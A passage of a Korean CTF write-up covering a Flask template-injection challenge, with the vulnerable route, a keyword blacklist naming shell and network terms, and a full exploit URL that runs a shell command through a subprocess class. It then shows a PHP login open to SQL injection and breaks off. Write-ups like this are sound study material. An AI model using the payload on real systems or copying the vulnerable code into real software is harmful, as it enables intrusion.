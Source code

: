 ## 후기    
            
NodeJS vm2 sandbox 취약점을 활용하여 RCE하는 sandbox 문제를 풀지 못한채로 끝나버려서 아쉬움이 남는 대회였다... (야간 근무를 가야했기에 ...)    

## 1. for_beginner    

SSTI 취약점을 활용해 RCE 하는 문제였다.   
    
```python
@app.route('/')
def main():
    name = request.args.get("name", "World")
    return render_template_string(f'Hello {name}!!')
```    

Flask에서 랜더링 함수인 `render_template_string()`에서 `SSTI` 취약점이 발생한다.     
    
```python
blacklist = ['os','subprocesses','exec','vars','sys','"','\+',
             'open','rm','main','static','templates','ctf','rf',
             'spawnlp','execfile','dir','dev','tcp','sh','import',
             'built','__class__','for','request','\,','app','file',
             'url_for','\[','\]','config']

def Prevent_SSTI(input):
    for i in blacklist:
        res = re.search(i,input)
        if res:
            return True
    else:
        return False
```

키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다. 

## Exploit Code
`http://3.34.190.217:1337/?name=%7B%7Brequest[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()%7D%7D`

### FLAG   
hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}

## 2. for_beginner-SQL 
   
Blind SQL Injection을 사용하여 관리자 패스워드를 알아내는 문제였다. 

```php
<?php
session_start();
require_once "config/dbconn.php";

$userid = $_GET['userid'];
$password = $_GET['password'];

if(isset($userid) && isset($password)) {
    $query = "SELECT userid, password FROM user WHERE userid = '${userid}' and password = '".md5($password)."'";
    try {
        $result = $mysqli->query($query);
        $data = mysqli_fetch_array($result);
        if(isset($data) && $data[0] == "admin" && $data[1] === md5($password)){
            die($flag);
	    } else {
		    die("Wrong...");
	    }
```